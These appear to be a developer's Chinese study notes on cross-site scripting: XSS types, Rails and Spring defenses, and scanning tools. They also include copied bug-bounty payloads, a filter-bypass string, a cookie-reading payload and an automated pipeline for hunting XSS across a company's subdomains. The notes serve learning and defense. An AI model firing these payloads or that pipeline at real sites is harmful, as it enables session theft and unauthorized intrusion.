

# web 攻击： xss

## 什么是xss

跨站脚本攻击（Cross-site scripting，XSS）是一种安全漏洞，攻击者可以利用这种漏洞在网站上注入恶意的客户端代码。
当被攻击者登陆网站时就会自动运行这些恶意代码，从而，攻击者可以突破网站的访问权限，冒充受害者。

引用：
[Cross-site scripting（跨站脚本攻击）](https://developer.mozilla.org/zh-CN/docs/Glossary/Cross-site_scripting)

XSS 攻击可以分为3类：存储型（持久型）、反射型（非持久型）、DOM 型。

## 为什么是xss

### 1 很严重的后果

  **OWASP TOP10   /  Cross Site Scripting (XSS)**  https://owasp.org/www-community/attacks/xss/

  盗取身份，冒充受者
  攻击受害者

### 2 美好的“钱途”

  大厂对xss漏洞的悬赏很高
Bug Bounty:$20000 Facebook DOM XSS
https://xz.aliyun.com/t/7783
Bug Bounty: Facebook XSS漏洞挖掘
https://xz.aliyun.com/t/7933

  2020年漏洞赏金记录表|bug bounty writeups
https://www.ddosi.com/bug-bounty-2020/


## 怎么发起XSS

[基础篇-XSS盲打](https://cloud.tencent.com/developer/article/1078996)

演示
XSS 攻击可以分为3类：存储型（持久型）、反射型（非持久型）、DOM 型。

存储型 XSS
注入型脚本永久存储在目标服务器上。当浏览器请求数据时，脚本从服务器上传回并执行。
反射型 XSS
当用户点击一个恶意链接，或者提交一个表单，或者进入一个恶意网站时，注入脚本进入被攻击者的网站。Web服务器将注入脚本，比如一个错误信息，搜索结果等 返回到用户的浏览器上。由于浏览器认为这个响应来自"可信任"的服务器，所以会执行这段脚本。
基于 DOM 的 XSS
通过修改原始的客户端代码，受害者浏览器的 DOM 环境改变，导致有效载荷的执行。也就是说，页面本身并没有变化，但由于DOM环境被恶意修改，有客户端代码被包含进了页面，并且意外执行。
我们项目的例子
测试的例子
  在线网站xss平台
真实的攻击延展

## 武器库
怎么发现,怎么检查出来

## 怎么防御

我们做了哪些？

### 方案

rails 处理

https://ruby-china.github.io/rails-guides/security.html#cross-site-scripting-xss
https://www.bigbinary.com/blog/xss-and-rails
https://rorsecurity.info/cross-site-scripting-xss-rails
https://cheatsheetseries.owasp.org/cheatsheets/Ruby_on_Rails_Cheat_Sheet.html

https://github.com/abedra/safe-erb
https://molily.de/xss/
https://www.netsparker.com/blog/web-security/preventing-xss-ruby-on-rails-web-applications/


https://www.mi1k7ea.com/2019/02/24/CSP策略及绕过技巧小结/

富文本场景下的 XSS
https://cloud.tencent.com/developer/article/1882137

富文本编辑框和防止xss攻击
https://www.cnblogs.com/xiugeng/p/9439473.html

XSS 防御

1 在cookie中添加 httpOnly

在 cookie 中添加 httpOnly 标志可以规避这种攻击，这个标志可以禁止 JavaScript 读取 document.cookie 属性。IE v6.SP1、 Firefox v2.0.0.5、Opera 9.5、Safari 4 和 Chrome 1.0.154 以及更高版本的浏览器都支持 httpOnly 标志，Safari 浏览器也在考虑支持这个标志。但其他浏览器（如 WebTV）或旧版浏览器（如 Mac 版 IE 5.5）不支持这个标志，因此遇到上述攻击时会导致网页无法加载。

需要注意的是，即便设置了 httpOnly 标志，通过 Ajax 仍然可以读取 cookie。

2 禁止 iframe 套壳 

<iframe name="StatPage" src="http://58.xx.xxx.xxx" width=5 height=5 style="display:none"></iframe>

3 白名单 过滤
Rails 2 及更高版本中使用了白名单，下面是使用新版 sanitize() 方法的例子：

tags = %w(a acronym b strong i em li ul ol h1 h2 h3 h4 h5 h6 blockquote br cite sub sup ins p)
s = sanitize(user_input, tags: tags, attributes: %w(href title))

anitize() 过滤器能够识别此类代码


https://hackvertor.co.uk/public

4 转义输出 

接下来应该转义应用的所有输出，特别是在需要显示未经过滤的用户输入时（例如前面提到的的搜索表单的例子）。使用 escapeHTML() 方法（或其别名 h() 方法），把 HTML 中的字符 &、"、< 和 > 替换为对应的转义字符 &amp;amp;、&amp;quot;、&amp;lt; 和 &amp;gt;。

分为两种：
1 普通文本不应该带标签，直接全清, ERB::Util.html_escape_once(str)用来处理历史数据
2 富文本，本身需要支持一些标签，白名单支持 sanitize ，触发的事件关键字替换，Script => Script Ｓｃｒｉｐｔ

事件列表见：
https://netsec.expert/posts/xss-in-2021/

### [openRasp](https://rasp.baidu.com/)


https://www.baeldung.com/spring-prevent-xss

https://owasp.org/www-project-enterprise-security-api/

ESAPI (The OWASP Enterprise Security API) is a free, open source, web application security control library that makes it easier for programmers to write lower-risk applications. The ESAPI libraries are designed to make it easier for programmers to retrofit security into existing applications. The ESAPI libraries also serve as a solid foundation for new development.

https://mvnrepository.com/artifact/org.owasp.esapi/esapi

这个是spring的官方包,有不少是header的功能
https://docs.spring.io/spring-security/site/docs/5.1.6.RELEASE/reference/html/web-app-security.html

这里也有一些header上保护xss的
Preventing XSS in Spring Boot Apps
https://phani-susarla.medium.com/preventing-xss-in-spring-boot-apps-558580340f33

https://github.com/sotheareth/XSS-Filter-Spring

Spring MVC Xss Filter
https://www.javatt.com/p/33781
http://opensource.finn.no/xss-html-filter/

XSStrike 是用 Python3 编写的，快速检测跨站脚本漏洞的工具
https://blog.intigriti.com/2021/06/29/hacker-tools-xsstrike-hunting-for-low-hanging-fruits/

## Payload

在进攻和防守武器都到位后，就剩下Payload之间斗智斗勇的拉剧战了

@SamuelAnttila ’s amazing XSS cheatsheet. It covers wide range of topics. 
His story is as incredible as he is. Thanks for all the advice :) 
https://netsec.expert/posts/xss-in-2021/
这个不错

https://github.com/payloadbox/xss-payload-list

https://www.kitploit.com/2018/05/xss-payload-list-cross-site-scripting.html

Almost all XSS Payloads. xss大全, 这个好像下了
https://github.com/irfan-knr/KNR-XSS-Payloads


## 这里面相关xss的

https://github.com/trimstray/the-book-of-secret-knowledge

https://github.com/qazbnm456/awesome-web-security

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection

https://www.cgisecurity.com/xss-faq.html


https://twitter.com/ldionmarcil/status/922553386645454850

Stored XSS quick-win: IIS serves .stm files as text/html. Most file uploads features will blacklist asp(x), s/htm(l), etc. but rarely .stm


https://hackerone.com/reports/643908
I found a stored xss @ https://core.trac.wordpress.org/
Steps:
Go to https://core.trac.wordpress.org/ and login. (open new private window and login with another account)
Go to https://core.trac.wordpress.org/newticket and set a summary and description.
Select a Workflow Keyword and click manual. Paste the payload: "><svg/onload=alert(document.domain)>
Click enter button and click Create Ticket button. Now, you will see xss alert. Copy the url and go to private window. Go to url and you will see xss alert.
PoC: https://youtu.be/Nyt1op_73vs
Impact: Stealing cookies

XSS payload to keep on your notes:

<script>alert(1)</script> -> nginx block
"> -> Wordfence block
ax6zt%2522%253e%253cscript%253ealert%2528document.domain%2529%253c%252fscript%253ey6uu6 -> successful execution

Reflected xss successfull payload for me:

1.<b onmouseover=alert('Wufff!')>click me!</b>
2."><script>propmt("mamunwhh")</script>
3."><script>alert(document.cookie)</script>

4. /><svg src=x onload=confirm("1337");>

Brute Logic
@brutelogic
·
2019年6月12日
Here's a small #XSS list for manual testing (main cases, high success rate).

">
"autofocus onfocus=alert(1)//
</script><script>alert(1)</script>
'-alert(1)-'
\'-alert(1)//
javascript:alert(1)

Try it on:
- URL query, fragment & path;
- all input fields.


 Ramadan Mubarak Smiling face with 3 hearts
       ALLHUMDULILLAH

BUG : HTML INJECTION to XSS

1) try : <a href="https://evil.com")>click</a>
2) HTML injection successfully working.
3) Now try escalate to XSS : <a href=javascript:alert('Fauzan_hacker')>click</a>


### react xss

浅谈 React 中的 XSS 攻击
https://www.infoq.cn/article/yVgbxJCyJklf9eqg71cL
DOM-based XSS 与存储性 XSS、反射型 XSS 有什么区别？
https://www.zhihu.com/question/26628342
在易用上，存储型XSS > DOM - XSS > 反射型 XSS。
在检测上，目前我还没有看到比较好的针对存储型xss的检测手段，而domxss和反射型xss均有比较好的检测手段了。
你用burp Suite或者其他WEB数据包分析工具分析一下就会发现：
存储型XSS：你发送一次带XSS代码的请求，以后这个页面的返回包里都会有XSS代码；
反射型XSS：你发送一次带XSS代码的请求，只能在当前返回的数据包中发现XSS代码；
DOM型XSS：你发送一次带XSS代码的请求，在返回包里压根儿就找不到XSS代码的影子；
DOM Based Cross-site Scripting Vulnerability
https://www.netsparker.com/blog/web-security/dom-based-cross-site-scripting-vulnerability/
The article also explains why the traditional XSS remediation methods do not work and what you can do to ensure that your web applications are not vulnerable to DOM based cross-site scripting vulnerability.

12 | 从0到1：你的第一个GUI自动化测试
https://time.geekbang.org/column/article/11913
21 个 React 性能优化技巧
https://www.infoq.cn/article/KVE8xtRs-uPphptq5LUz

## TOOLS

### burpsuite xss-validator


burpsuite检测xss漏洞 burpsuite实战指南
https://cloud.tencent.com/developer/article/1353325
如何使用开源组件解决web应用中的XSS漏洞
https://t0data.gitbooks.io/mysecuritybook/content/chapter1.html

这应该是burpsuite发的请求
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet


#### 检查

评论：
1 好像是无法自动识别的，只是帮着发而以，可能存储型的好一些
2 360一些用url也无法触发
Intruder组件根据Grep Phrase标志区分是否存在漏洞？怎么实现？

[2021Kali系列 -- BurpSuite(XSS插件)](https://zhuanlan.zhihu.com/p/364017983)

[使用Burp、PhantomJS进行XSS检测](https://t0data.gitbooks.io/burpsuite/content/chapter19.html)

extender -> BAppStore 'XSS VALIDATOR'

https://github.com/portswigger/xss-validator

https://phantomjs.org/download.html

https://github.com/pmiaowu/BurpReflectiveXssMiao

### x5s: fiddler　插件，都是１０年左右的

http://xss.codeplex.com x5s XSS and Unicode transformations security testing assistant
https://www.security-database.com/toolswatch/x5s-Beta-released-Automated-XSS.html

https://github.com/infoslack/awesome-web-hacking

https://twitter.com/noisy_hacker/status/1380487731701108741
Automated XSS Hunting in All Domains & Subdomains  #infosec  #bugbounty  #bugbountytips

Google：automated xss


1 amass enum -d twitter 收集子域名到txt
2 paramspider 目录： xargs -a domains.txt -I@ sh -c 'python3 paramspider.py -d @ -l high'
3 获取输出 
4 合并 cat *.txt > twitter.txt
  wc -l twitter.txt
5 cat twitter.txt | Gxss -p surya | dalfox pipe --mining-dict ./Arjun/arjun/db/params.txt --skip-bav

tools:
[amass](https://github.com/OWASP/Amass)
  In-depth Attack Surface Mapping and Asset Discovery
[paramspider](https://github.com/devanshbatham/ParamSpider)
  Mining parameters from dark corners of Web Archives
[Gxss](https://github.com/KathanP19/Gxss)
  A tool to check a bunch of URLs that contain reflecting params.
[dalfox](https://github.com/hahwul/dalfox)
   🌘🦊 DalFox(Finder Of XSS) / Parameter Analysis and XSS Scanning tool based on golang
   https://latesthackingnews.com/2021/03/08/dalfox-an-automated-xss-finder/

Automating XSS using Dalfox, GF and Waybackurls
https://infosecwriteups.com/automating-xss-using-dalfox-gf-and-waybackurls-bc6de16a5c75

Chrome 插件 Vue.js devtools UXSS
https://www.pwnwiki.org/index.php?title=Chrome_%E6%8F%92%E4%BB%B6_Vue.js_devtools_UXSS


## 工具

轻量级开源SAST工具semgrep分析|XSS
https://www.anquanke.com/post/id/240028

### [DSXS源码分析](https://www.anquanke.com/post/id/238386)

  这是一个仅有一百行的xss检测脚本，现在来分析一下他的源码

  项目地址：https://github.com/stamparm/DSXS

```bash
git clone https://github.com/stamparm/DSXS.git
```

### nmap

ll /usr/share/nmap/scripts | grep xss

https://github.com/trimstray/the-book-of-secret-knowledge
Recon specific ip:service with Nmap NSE scripts stack


## 相关知识

[DOM XSS 安全学习平台](https://domgo.at/cxss/intro)
> [function与Function，这两种写法，在javascript中，区别是什么？（一个大写，一个小写开头）](https://bbs.csdn.net/topics/330250888)

[HTML5 Security Cheatsheet](http://html5sec.org/)
> 这里是各种payload

http://evuln.com/tools/xss-encoder/
> 各种编码方法  

https://github.com/s0md3v/AwesomeXSS
> https://github.com/s0md3v/XSStrike


Master the art of Cross Site Scripting.
https://brutelogic.com.br/blog/
BRUTE XSS
CSP Bypass Guidelines
https://brutelogic.com.br/blog/csp-bypass-guidelines/

TODO: 看书：
2020版本
https://www.rapidx.in/pdf/432309207.pdf
2018版本
https://paper.bobylive.com/Security/XSS_Cheat_Sheet_2018_Edition.pdf

### xss
[Google Search XSS漏洞分析](https://www.anquanke.com/post/id/213422)

Web笔记（十一）文件上传漏洞

https://houkc.github.io/2020/12/03/fileUpload/
https://github.com/JnuSimba/MiscSecNotes/blob/master/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0.md